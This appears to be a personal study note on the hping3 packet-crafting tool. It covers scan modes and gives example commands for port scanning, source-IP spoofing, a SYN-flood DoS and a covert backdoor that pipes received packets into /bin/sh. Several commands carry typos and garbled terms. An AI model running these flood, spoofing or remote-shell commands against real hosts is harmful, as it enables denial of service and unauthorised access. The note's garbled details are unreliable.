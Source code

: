 ```yaml
---
title: Meow's Testing Tools - hping
date: 2019-09-17 11:11:11 -0400
categories: [10CyberAttack, CyberAttackTools]
tags: [CyberAttack, CyberAttackTools]
toc: true
image:
---
```


# hping

[toc]

---

# Hping
- Hping (Hping2 or Hping3) is another powerful tool for both ping sweeps and port scans
  - a handy packet-crafting tool for TCP/IP.
  - works on Windows and Linux versions
  - runs nearly any scan Nmap can put out.
  - downside, command-line-only tool.


- a command-line TCP/IP packet assembler and analyzer tool
- send customized TCP/IP packets and display the target reply as ping command display the `ICMP Echo Reply packet` from targeted host.
- Hping can also handle fragmentation, arbitrary packets body, and size and file transfer.
- It supports `TCP, UDP, ICMP and RAW-IP` protocols.
- Using Hping, the following parameters can be performed:
  - Test firewall rules.
  - Advanced port scanning.
  - Testing net performance.
  - Path MTU discovery.
  - Transferring files between even fascist firewall rules.
  - Traceroute-like under different protocols.
  - Remote OG fingerprinting & others.

￼![Screen Shot 2019-12-02 at 14.38.32](https://i.imgur.com/dLaXTxs.png)
￼
`-i` –interval wait (uX for X microseconds, for example -i u1000)

Modede

fault mode TCP
- `-0`: RAW IP mode
- `-1`: ICMP mode
- `-2`: UDP mode
- `-8`: SCAN mode.
- `-9`: listen mode

![page91image152294272](https://i.imgur.com/xEaDBuv.jpg)


- Hping 設定SYN Flag, (收到SYC/ACK代表Port有開)
  - 目標怎麼回代表防火牆是open
  - `Hping 10.1.1.1 –c2 –S(SYN) –p21 -n`
  - *Port open*：`SYN/ACK`
  - *Port closed*：`ICMP Unreachable type 13`  *packet filter firewall*

---

## Example

`hpings –A IP` create an ACK packet:

![Pasted Graphic 4](https://i.imgur.com/Q53gnqB.png)

`hpings -8 1-600 –S IP`: create GVN scan against different ports:

￼![Pasted Graphic 5](https://i.imgur.com/fNu5d8z.png)

spoof source IP addresses and source ports.
`hping3 -a 10.8.8.8 -S  springfield   -c 2 -p 80`

Dos Attack:
`hping3 -i ul -S -p 80 192.168.1.10`

Pings (ICMP echo requests) being blocked:
`hping3 -S  www.baidu.ss -p 80`


Uptime: `hping2 -p 80 -S --tcp-timestamp host`

PortScan: `hping –I eth0 --scan 20-25,80,443 -S host`

Synflood: `hping –p 80 –i u10000 –a source –S host`


Backdoor:

S-: `hping3 -I eth1 -9 secret | /bin/sh`

C-: `hping3 -R ip -e secret -E command_file -d 100 -c 1`










.
